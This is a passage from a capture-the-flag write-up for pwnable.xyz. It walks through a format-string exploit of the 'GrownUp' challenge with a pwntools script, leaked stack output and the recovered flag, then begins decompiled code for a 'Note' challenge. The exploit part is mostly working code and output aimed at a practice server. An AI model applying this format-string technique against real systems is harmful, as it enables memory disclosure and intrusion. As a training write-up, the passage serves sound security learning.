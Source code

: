But how are we going to get the flag, which doesn't exist inside the stack?

For this, I'm going to make use of first read input. I only uses first byte in the code, but it actually reads 0x10 bytes. We could use this additional space to store address of flag.

By putting multiple ``%p`` specifiers I was able to find our input ('bbbbbbbb') at the 9th ``%p``.
```bash
junheah@ubuntu:~$ ./GrownUp
Are you 18 years or older? [y/N]: yaaaaaaabbbbbbb
Name: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
Welcome 0x6010e0 0x7fb0dcff6780 0x5d 0x7fb0dd360700 0x8 0x10f413a12e 0x682010 0x6161616161616179 0x62626262626262 0x7ffff413a210 0xb51988fb65246c00 0x400970 0x7fb0dcc50830 0x1 0x7ffff413a218 0x1dd225ca0 0x400865 (nil) 0x1c86fab81427b81e 0x4006e0 0x7ffff413a210 (nil) (nil) 0xe379121f4447b81e 0xe3e743b20917b81e (nil) (nil) (nil) 0x7ffff413a228 0x7fb0dd227168 0x7fb0dd0107db (nil)
```
exploit code:
```python
from pwn import *

payload = ''
payload += 'yaaaaaaa'
payload += p64(0x601080)

r = remote('svc.pwnable.xyz', 30004)
r.recvuntil(': ')
r.send(payload)

payload = ''
payload += 'a'*0x20
payload += '%p '*8 + '%s' + ' %p'*23

r.recvuntil(': ')
r.sendline(payload)
r.interactive()
```
exploit:
```bash
junheah@ubuntu:~$ python exp.py
[+] Opening connection to svc.pwnable.xyz on port 30004: Done
[*] Switching to interactive mode
Welcome 0x6010e0 0x7f73401958c0 (nil) 0x7f73403bc500 0x8 0x10401a83d0 0x2449260 0x6161616161616179 FLAG{should_have_named_it_babyfsb} 0x7ffe6e30c2b0 0x7081d0c33e1faa00 0x400970 0x7f733fdfdeae 0x100000 0x7ffe6e30c2b8 0x13ff59428 0x400865 (nil) 0x90a4c3c5d8057cd3 0x4006e0 (nil) (nil) (nil) 0x6f581f2449257cd3 0x6e42bcfa76297cd3 (nil) (nil) (nil) 0x7ffe6e30c2c8 0x7f73403c1190 0x7f73401a832b (nil)
[*] Got EOF while reading in interactive
```

## 5. Note
``main``:
```c
// local variable allocation has failed, the output may be wrong!
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v3; // eax

  setup(*(_QWORD *)&argc, argv, envp);
  puts("Note taking 101.");
  while ( 1 )
  {
    while ( 1 )
    {
      while ( 1 )
      {
        print_menu();
```